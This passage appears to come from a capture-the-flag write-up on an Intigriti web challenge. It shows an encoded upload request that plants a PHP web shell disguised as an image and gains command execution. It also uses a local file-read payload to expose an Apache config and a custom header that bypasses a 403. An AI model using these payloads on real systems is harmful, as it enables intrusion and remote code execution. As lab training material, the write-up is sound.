 ```http
```

Again use burp to calculate the content length and encode it in cyber chef.

![19.png]

[Encoded Shell](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=UE9TVCAvdXBsb2FkX3Nob3BwaXhfaW1hZ2VzLnBocCBIVFRQLzEuMQ0KSG9zdDogY2hhbGxlbmdlLTEwMjUuaW50aWdyaXRpLmlvDQpDb250ZW50LVR5cGU6IG11bHRpcGFydC9mb3JtLWRhdGE7IGJvdW5kYXJ5PS0tLS1ib3VuZGFyeQ0KQ29udGVudC1MZW5ndGg6IDQzMA0KDQotLS0tLS1ib3VuZGFyeQ0KQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJpbWFnZSI7IGZpbGVuYW1lPSJzMXguanBnLnBocCINCkNvbnRlbnQtVHlwZTogaW1hZ2UvanBlZw0KDQpHSUY4OWE8P3BocCBpZihmdW5jdGlvbl9leGlzdHMoJ3Byb2Nfb3BlbicpICYmIGlzc2V0KCRfR0VUWydjJ10pKXsgICAkZD1bMD0%2BWyJwaXBlIiwiciJdLDE9PlsicGlwZSIsInciXSwyPT5bInBpcGUiLCJ3Il1dOyAgICRwPXByb2Nfb3BlbigkX0dFVFsnYyddLCRkLCRwaXBlcyk7ICAgaWYoaXNfcmVzb3VyY2UoJHApKXtmY2xvc2UoJHBpcGVzWzBdKTsgZWNobyBzdHJlYW1fZ2V0X2NvbnRlbnRzKCRwaXBlc1sxXSk7IGZjbG9zZSgkcGlwZXNbMV0pOyBmY2xvc2UoJHBpcGVzWzJdKTsgcHJvY19jbG9zZSgkcCk7fSB9ID8%2BDQotLS0tLS1ib3VuZGFyeS0t&ieol=CRLF&oeol=CRLF)

And send it 

![20.png]

Access the web shell through the uploads directory and voilà, we achieve RCE.

![21.png]

![22.png]


And that’s the write-up for the first solution I found; after talking with the[ Intrigriti Discord ](https://go.intigriti.com/discord)community, which I encourage joining because they’re awesome, I arrived at another possible solution that cleared up my doubts about another theory I had: performing a 403 bypass


## 4. Second solution 403 GUI Bypass

Practicing in the PortSwigger labs (you can follow how this is going on my X account), one of the labs mentions that sometimes devs create a custom header to access internal machine resources.

So, let’s get to work: it’s necessary to investigate the machine’s files until reaching this path

`etc/apache2/sites-enabled/000-default.conf`

 Reviewing it can expose the DocumentRoot, Directory blocks, custom rewrites, or security directives (e.g., custom headers, allow/deny rules) that explain 403 behavior or indicate required headers for internal access.

 Since only configurations linked in sites-enabled are active, checking 000-default.conf there confirms what Apache is actually loading, not just what is available elsewhere.

AND BINGO AGAIN!

**Payload: `file:////etc/apache2/sites-enabled/000-default.conf?http`**

![23.png]

In short: the file upload_shoppix_images.php is gated by a custom header check. The <If "%{HTTP:is-shoppix-admin} != 'true'"> clause denies access unless the incoming request includes the header is-shoppix-admin with the exact value true. Therefore, adding is-shoppix-admin: true to the request lets the authorization fall through to Require all granted, bypassing the 403 and allowing access via the GUI or any client that can set custom headers.
